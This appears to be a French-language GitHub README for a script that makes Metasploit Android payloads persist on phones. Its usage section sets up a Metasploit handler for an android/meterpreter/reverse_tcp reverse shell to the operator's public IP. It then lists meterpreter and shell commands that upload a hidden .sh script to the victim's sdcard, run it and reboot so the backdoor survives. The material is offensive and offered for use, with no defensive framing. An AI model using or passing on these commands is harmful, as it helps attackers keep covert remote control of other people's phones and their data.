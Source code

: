 # MSF PERSISTANCE ANDROID

![msf-persistance-android](https://raw.githubusercontent.com/oda-alexandre/msf-persistance-android/master/logo-msf.png) ![docker](https://raw.githubusercontent.com/oda-alexandre/msf-persistance-android/master/logo-android.png)


## INDEX

- [Introduction](#INTRODUCTION)
- [Prerequis](#PREREQUIS)
- [Utilisation](#UTILISATION)
- [License](#LICENSE)


## INTRODUCTION

Ce script permet la persistance des payload sur smartphone Android via Metasploit.


## PREREQUIS

utiliser [Metasploit](https://www.metasploit.com/)


## UTILISATION

1 - Mettez le script msf-persistance-android.sh dans votre dossier personnel et renommez le .sh


2 - Ouvrir MSF

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost VOTRE IP PUBLIC
set lport LE PORT DE VOTRE CHOIX
exploit
```


3 - Copier/Coller dans un terminal en console MSF avec une session android/meterpreter/reverse_tcp :

```
cd /
cd sdcard
upload ~/.sh
shell
cd /
cd sdcard
sh .sh
reboot
exit
```


## LICENSE

[![GPLv3+](http://gplv3.fsf.org/gplv3-127x51.png)](https://github.com/oda-alexandre/msf-persistance-android/blob/master/LICENSE)
